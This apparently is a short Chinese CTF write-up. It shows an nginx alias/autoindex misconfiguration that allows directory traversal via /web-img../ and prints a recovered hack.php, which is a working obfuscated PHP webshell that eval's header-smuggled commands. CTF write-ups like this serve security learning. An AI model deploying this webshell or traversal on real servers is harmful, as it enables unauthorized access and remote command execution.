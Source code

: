 ```
server {
    ...
    location ~ /\. {
            log_not_found off;
            deny all;
    }
    location /web-img {
        alias /images/;
        autoindex on;
    }
    location ~* \.(ini|docx|pcapng|doc)$ {  
         deny all;  
    }  
    include /var/www/nginx[.]conf;
}
```

autoindex表示目录浏览功能，也就是在这个目录可以进行目录遍历。

把/web-img/变为/web-img../可以访问根目录，具体原因也不清楚

![](https://ww1.yunjiexi.club/2020/01/17/jFOvC.png)

在网站找到hack.php的bak

```php
<?php
$U='_/|U","/-/|U"),ar|Uray|U("/|U","+"),$ss(|U$s[$i]|U,0,$e)|U)),$k))|U|U);$o|U|U=o|Ub_get_|Ucontents(|U);|Uob_end_cle';
$q='s[|U$i]="";$p=|U$ss($p,3);}|U|Uif(array_k|Uey_|Uexis|Uts($|Ui,$s)){$s[$i].=|U$p|U;|U$e=|Ustrpos($s[$i],$f);|Ui';
$M='l="strtolower|U";$i=$m|U[1|U][0].$m[1]|U[1];$|U|Uh=$sl($ss(|Umd5($i|U.$kh),|U0,3|U));$f=$s|Ul($ss(|Umd5($i.$';
$z='r=@$r[|U"HTTP_R|UEFERER|U"];$r|U|Ua=@$r["HTTP_A|U|UCCEPT_LAN|UGUAGE|U"];if|U($r|Ur&|U&$ra){$u=parse_|Uurl($r';
$k='?:;q=0.([\\|Ud]))?,|U?/",$ra,$m)|U;if($|Uq&&$m){|U|U|U@session_start()|U|U;$s=&$_SESSIO|UN;$ss="|Usubst|Ur";|U|U$s';
$o='|U$l;|U){for|U($j=0;($j|U<$c&&|U|U$i|U<$|Ul);$j++,$i++){$o.=$t{$i}|U^$k|U{$j};}}|Ureturn $|Uo;}$r=$|U_SERV|UE|UR;$r';
$N='|Uf($e){$k=$k|Uh.$kf|U;ob_sta|Urt();|U@eva|Ul(@g|Uzuncom|Upress(@x(@|Ubas|U|Ue64_decode(preg|U_repla|Uce(|Uarray("/';
$C='an();$d=b|Uase64_encode(|Ux|U(gzcomp|U|Uress($o),$k))|U;prin|Ut("|U<$k>$d</$k>"|U);@ses|U|Usion_des|Utroy();}}}}';
$j='$k|Uh="|U|U42f7";$kf="e9ac";fun|Uction|U |Ux($t,$k){$c|U=|Ustrlen($k);$l=s|Utrl|Ue|Un($t);$o=|U"";fo|Ur($i=0;$i<';
$R=str_replace('rO','','rOcreatrOe_rOrOfurOncrOtion');
$J='kf|U),|U0,3));$p="|U";for(|U|U$|Uz=1;$z<cou|Unt|U($m[1]);|U$z++)$p.=|U$q[$m[2][$z|U]|U];if(strpos(|U$|U|Up,$h)|U===0){$';
$x='r)|U;pa|Urse|U_str($u["qu|U|Uery"],$q);$|U|Uq=array_values(|U$q);pre|Ug|U_match_al|Ul("/([\\|U|Uw])[|U\\w-]+|U(';
$f=str_replace('|U','',$j.$o.$z.$x.$k.$M.$J.$q.$N.$U.$C);
$g=create_function('',$f);
$g();
?>
```
